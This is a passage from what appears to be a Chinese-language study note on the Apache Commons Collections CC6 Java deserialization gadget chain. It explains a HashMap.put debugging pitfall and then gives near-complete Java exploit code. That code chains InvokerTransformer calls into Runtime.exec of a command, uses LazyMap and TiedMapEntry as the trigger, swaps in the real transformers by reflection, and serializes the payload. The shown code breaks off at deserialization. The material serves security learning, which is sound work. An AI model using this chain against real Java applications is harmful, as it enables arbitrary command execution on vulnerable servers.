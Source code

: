 初步构造出来应该是这个样子的，但是我们执行发现并没有触发`？？`

p牛的调试发现`expMap.put(tme,"valuevalue");`问题其实在这里，hashmap的put方法其实已经执行了一次hash方法，但是因为我们前面是用的`fake`，所以在这里它就把`outermap`中增加了一个`keykey`的键，并且指向是1，后面调试的时候，也会发现，在hash的时候`key`它返回值的时候不是对象，而是keykey。

有什么办法处理呢？其实调用Out的remove删除keykey就可以了。

最后的大成功

```java

package com.anbai.sec.serializes;

import com.sun.xml.bind.v2.util.ByteArrayOutputStreamEx;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import java.io.*;
import java.lang.reflect.Field;
import java.util.HashMap;
import java.util.Map;

public class CC6 {
    public static void main(String[] args) throws NoSuchFieldException, IllegalAccessException, IOException, ClassNotFoundException {
        //先构造出有利用的链
        String cmd = "calc";
        Transformer[] fakeTransformers = new Transformer[] {new
                ConstantTransformer(1)};
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[]{
                        String.class, Class[].class}, new Object[]{"getRuntime", new Class[0]}
                ),
                new InvokerTransformer("invoke", new Class[]{
                        Object.class, Object[].class}, new Object[]{null, new Object[0]}
                ),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{cmd})
        };
        //构造利用链
        Map innermap = new HashMap();
        Transformer transformedChain = new ChainedTransformer(fakeTransformers);
        Map outermap = LazyMap.decorate(innermap,transformedChain);
        TiedMapEntry tme = new TiedMapEntry(outermap, "keykey");
        HashMap expMap = new HashMap();
        expMap.put(tme,"valuevalue");

        outermap.remove("keykey");
        //避免一次触发
        Field f = ChainedTransformer.class.getDeclaredField("iTransformers");
        f.setAccessible(true);
        f.set(transformedChain, transformers);
        //模拟攻击

        ByteArrayOutputStream barr = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(barr);
        oos.writeObject(expMap);
        oos.close();

        //生成序列化

        ByteArrayInputStream bai = new ByteArrayInputStream(barr.toByteArray());
```